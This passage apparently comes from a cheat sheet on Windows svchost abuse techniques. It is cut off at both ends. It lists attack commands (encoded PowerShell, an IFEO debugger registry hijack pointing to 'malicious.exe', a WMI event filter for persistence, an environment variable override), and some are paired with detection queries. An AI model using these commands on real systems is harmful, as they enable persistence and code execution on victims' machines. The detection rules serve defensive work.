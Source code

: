 ```
    return 0;
}
```


### PowerShell Injection

Injecting PowerShell commands via svchost

```
powershell -encodedCommand [Base64Code]
```




### Environment Variable Override

Overriding environment variables to affect svchost behavior

```
set COMPLUS_Version=v4.0.30319 && svchost.exe
```

```
process.name: "cmd.exe" AND process.args: "set" AND process.args: "COMPLUS_Version"
```



### Image File Execution Options Injection

Manipulating IFEO to debug svchost with malicious code

```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\svchost.exe" /v Debugger /t REG_SZ /d "malicious.exe"
```

```
process.name: "reg.exe" AND process.args: "Image File Execution Options" AND process.args: "svchost.exe"
```



### WMI Event Subscription

Creating malicious WMI event subscriptions

```
wmic /namespace:\\root\subscription PATH __EventFilter CREATE Name="evilFilter", EventNameSpace="root\cimv2", QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"
```





### ETW Provider Hijacking
